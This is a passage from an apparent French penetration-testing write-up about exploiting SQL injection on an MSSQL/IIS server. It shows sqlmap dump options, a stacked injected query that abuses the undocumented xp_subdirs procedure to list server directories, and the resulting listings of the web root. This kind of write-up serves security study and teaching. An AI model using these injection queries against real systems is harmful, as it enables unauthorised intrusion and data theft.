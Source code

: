 Pour récupérer le contenu de la table (et donc le contenu du fichier) il suffit d'utiliser les options *-D web -T yoloout2 --dump* de *SQLmap* :  

```plain
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Armé de cette nouvelle fonctionnalité je me suis efforcé d'obtenir le contenu du fichier *applicationhost.config* qui est un peu le *httpd.conf* ou *apache2.conf* d'IIS. Malheureusement la récupération de ce fichier normalement situé dans *system32\inetsrv* ou *system32\inetsrv\config* a échoué. Je suppose que l'accès à ce fichier est soit refusé soit bloqué car déjà ouvert par IIS...  

L'objectif était de retrouver l'emplacement exact de la racine web sur le serveur qui de toute évidence n'était pas exactement *c:\inetpub\wwwroot*.

Shoruyken
---------

A ce stade toujours pas de *xp\_cmdshell*, mais qu'en est-il des autres procédures xp\_\* ?  

MSSQL dispose de deux procédures de listing de dossiers qui ne sont pas documentées : *xp\_subdirs* et *xp\_dirtree*.  

Avec la requête *DROP TABLE yoloout2; CREATE TABLE yoloout2 (subdir varchar(512)); INSERT INTO yoloout2 EXEC master.dbo.xp\_subdirs 'c:\inetpub';* on crée une table dont les entrées sont les noms des sous-dossiers de *inetpub* :

```plain
Database: web
Table: YOLOOUT2
[5 entries]
+---------+
| SUBDIR  |
+---------+
| custerr |
| history |
| logs    |
| temp    |
| wwwroot |
+---------+
```

Enfin ! On répète l'opération pour *wwwroot* :  

```plain
+---------------+
| SUBDIR        |
+---------------+
| aspnet_client |
| css           |
| images        |
| members       |
| street        |
+---------------+
```
